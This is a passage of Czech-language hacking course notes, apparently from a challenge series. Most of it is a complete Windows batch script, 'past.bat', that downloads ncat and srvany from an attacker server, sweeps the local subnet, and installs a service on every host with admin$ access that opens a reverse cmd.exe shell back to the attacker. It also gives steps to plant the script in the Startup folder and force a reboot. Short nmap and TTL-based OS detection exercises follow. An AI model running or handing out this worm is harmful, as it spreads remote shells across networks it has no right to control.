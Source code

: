 past.bat
	1) Zjistíme, jakou IP adresu má naše oběť
	2) Provedeme Live sken sítě, abychom zjistili živá zařízení v síti
	3) U každého zařízení ověříme, zda na něm máme admin práva
	4) Tam kde máme admin práva
		- nakopírujeme na takové zařízení NCAT a SRVANY
		- Vytvoříme novou službu, která bude spouštět backdoor
		- Službu nastartujeme

	@ECHO OFF
	CURL http://1.2.3.170/ncat.exe --output %temp%\ncat.exe
	CURL http://1.2.3.170/srvany.exe --output %temp%\srvany.exe
	FOR /F "tokens=14" %%i IN ('"IPCONFIG | FINDSTR IPv4"') DO SET ip=%%i
	FOR /F "tokens=1,2,3 delims=." %%a IN ("%ip%") DO SET segment=%%a.%%b.%%c
	FOR /L %%i IN (1,1,254) DO @START /min CMD /c "PING -n 1 -w 100 %segment%.%%i"
	TIMEOUT /t 5
	SET port=10000
	SETLOCAL ENABLEDELAYEDEXPANSION
	FOR /F "tokens=1" %%i IN ('"ARP -a | FINDSTR %segment% | FINDSTR /v Interface | FINDSTR /v 255"') DO (
		IF EXIST \\%%i\admin$\system.ini (
			COPY %temp%\ncat.exe \\%%i\admin$\ncat.exe /y
			COPY %temp%\srvany.exe \\%%i\admin$\srvany.exe /y
			SC \\%%i CREATE multi binpath= srvany.exe
			REG ADD \\%%i\HKLM\SYSTEM\CurrentControlSet\Services\multi\Parameters /v Application /t REG_SZ /d "ncat 1.2.3.170 !port! -e cmd.exe" /f
			SC \\%%i START multi
			SET /A port+=1
		)
	)
	ENDLOCAL

	Nahrajeme past.bat na server útočníka
		SCP past.bat kali@192.168.56.170:/var/www/html
	Nejprve je potřeba provést Privilege escalation na System
	Následně pod systémem stáhneme past od útočníka a zapíšeme ji do složky Startup
		CURL http://1.2.3.170/past.bat --output "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\past.bat"
	Spustíme si na jednotlivých tabech v linuxovém terminálu servery na portech 10000-10006
		ncat -lp 10000
	Zresetujeme uživateli PC
		SHUTDOWN /r /f /t 0


Challenge 22 (Live scan)
------------
Úkol:	Identifikujte na síti všechna živá zařízení (IP adresy)
	Pomocí specializovaného nástroje (NMAP)

Řešení:
	nmap -n -sn 192.168.56.1-254
	nmap -n -sn 192.168.56.0/24

Challenge 23 (OS detect)
------------
Úkol:	Identifikujte operační systémy na živých zařízeních
Řešení:
	Bez použití externích nástrojů
		pomocí PINGu zkontrolovat hodnotu TTL (nebližší vyšší násobek 32)
			64  = Unix
			128 = Windows
		